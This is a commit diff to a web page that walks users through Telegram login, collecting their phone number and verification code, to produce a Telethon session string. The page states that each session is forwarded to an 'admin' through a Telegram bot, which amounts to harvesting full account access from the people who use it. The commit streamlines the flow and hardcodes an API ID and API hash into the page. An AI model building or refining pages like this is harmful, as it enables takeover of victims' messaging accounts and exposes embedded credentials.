

Before and after one commit to ary965874/dfvf, a website: page index.html in a window 390 px wide. Shown: the part 199-924 px from the top of the page. After the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor phone number input and remove API fields

```diff
--- a/index.html
+++ b/index.html
@@ -176,15 +176,6 @@
             margin-bottom: 8px;
         }
 
-        .info-box ul {
-            padding-left: 20px;
-        }
-
-        .info-box li {
-            margin-bottom: 5px;
-            color: #555;
-        }
-
         .otp-input {
             text-align: center;
             font-size: 18px;
@@ -248,6 +239,19 @@
         .step-item.active .step-label {
             color: #667eea;
         }
+
+        .credentials-info {
+            background: #d4edda;
+            border: 1px solid #c3e6cb;
+            border-radius: 8px;
+            padding: 15px;
+            margin-bottom: 20px;
+        }
+
+        .credentials-info h4 {
+            color: #155724;
+            margin-bottom: 10px;
+        }
     </style>
 </head>
 <body>
@@ -260,7 +264,7 @@
         <div class="step-indicator">
             <div class="step-item active" id="step1-indicator">
                 <div class="step-number">1</div>
-                <div class="step-label">Credentials</div>
+                <div class="step-label">Phone Number</div>
             </div>
             <div class="step-item" id="step2-indicator">
                 <div class="step-number">2</div>
@@ -272,37 +276,27 @@
             </div>
         </div>
 
-        <!-- Step 1: Credentials -->
+        <!-- Step 1: Phone Number -->
         <div class="step active" id="step1">
-            <div class="info-box">
-                <h3>📝 How to get API credentials:</h3>
-                <ul>
-                    <li>Go to <a href="https://my.telegram.org" target="_blank">my.telegram.org</a></li>
-                    <li>Login with your phone number</li>
-                    <li>Go to "API Development Tools"</li>
-                    <li>Create a new application</li>
-                    <li>Copy API ID and API Hash</li>
-                </ul>
+            <div class="credentials-info">
+                <h4>✅ Pre-configured API Credentials</h4>
+                <p><strong>API ID:</strong> 23171051</p>
+                <p><strong>API Hash:</strong> 10331d5d712364f57ffdd23417f4513c</p>
             </div>
 
-            <form id="credentialsForm">
-                <div class="form-group">
-                    <label for="api_id">API ID:</label>
-                    <input type="number" id="api_id" placeholder="Enter your API ID" required>
-                </div>
+            <div class="info-box">
+                <h3>📱 Enter Your Phone Number</h3>
+                <p>We'll send a verification code to your Telegram account</p>
+            </div>
 
-                <div class="form-group">
-                    <label for="api_hash">API Hash:</label>
-                    <input type="text" id="api_hash" placeholder="Enter your API Hash" required>
-                </div>
-
+            <form id="phoneForm">
                 <div class="form-group">
                     <label for="phone">Phone Number:</label>
                     <input type="text" id="phone" placeholder="+1234567890" required>
                 </div>
 
                 <button type="submit" class="btn" id="requestCodeBtn">
-                    Request Verification Code
+                    Send Verification Code
                 </button>
             </form>
         </div>
@@ -336,12 +330,12 @@
 
         <!-- Step 3: Results -->
         <div class="step" id="step3">
-            <div class="result" id="result">
-                <h3 id="resultTitle">Session Generated Successfully!</h3>
+            <div class="result success" id="result">
+                <h3>✅ Session Generated Successfully!</h3>
                 <p>Your Telethon session string:</p>
                 <textarea class="session-string" id="sessionString" rows="6" readonly></textarea>
                 <p style="margin-top: 10px; font-size: 14px; color: #666;">
-                    ✅ Session has been sent to admin via Telegram bot
+                    🔔 Session has been sent to admin via Telegram bot
                 </p>
             </div>
 
@@ -361,14 +355,11 @@
         let sessionData = null;
 
         function showStep(step) {
-            // Hide all steps
             document.querySelectorAll('.step').forEach(s => s.classList.remove('active'));
             document.querySelectorAll('.step-item').forEach(s => s.classList.remove('active', 'completed'));
 
-            // Show current step
             document.getElementById(`step${step}`).classList.add('active');
 
-            // Update step indicator
             for (let i = 1; i <= step; i++) {
                 const indicator = document.getElementById(`step${i}-indicator`);
                 if (i === step) {
@@ -390,23 +381,18 @@
             document.getElementById('loading').style.display = 'none';
         }
 
-        function showError(message) {
-            const result = document.getElementById('result');
-            result.className = 'result error';
-            document.getElementById('resultTitle').textContent = '❌ Error';
-            document.getElementById('sessionString').value = message;
-            showStep(3);
-        }
-
         // Step 1: Request verification code
-        document.getElementById('credentialsForm').addEventListener('submit', async function(e) {
+        document.getElementById('phoneForm').addEventListener('submit', async function(e) {
             e.preventDefault();
 
-            const api_id = document.getElementById('api_id').value;
-            const api_hash = document.getElementById('api_hash').value;
             const phone = document.getElementById('phone').value;
 
-            showLoading('Sending verification code...');
+            if (!phone) {
+                alert('Please enter your phone number');
+                return;
+            }
+
+            showLoading('Sending verification code to your Telegram...');
 
             try {
                 const response = await fetch('/api/request-code', {
@@ -415,8 +401,6 @@
                         'Content-Type': 'application/json',
                     },
                     body: JSON.stringify({
-                        api_id: parseInt(api_id),
-                        api_hash: api_hash,
                         phone: phone
                     })
                 });
@@ -425,8 +409,6 @@
 
                 if (data.success) {
                     sessionData = {
-                        api_id: parseInt(api_id),
-                        api_hash: api_hash,
                         phone: phone,
                         phone_code_hash: data.phone_code_hash
                     };
@@ -450,6 +432,11 @@
 
             if (!sessionData) {
                 alert('Session data missing. Please start over.');
+                return;
+            }
+
+            if (!otp_code) {
+                alert('Please enter the verification code');
                 return;
             }
 
@@ -489,8 +476,7 @@
         });
 
         document.getElementById('newSessionBtn').addEventListener('click', function() {
-            // Reset form
-            document.getElementById('credentialsForm').reset();
+            document.getElementById('phoneForm').reset();
             document.getElementById('otpForm').reset();
             sessionData = null;
             showStep(1);
```
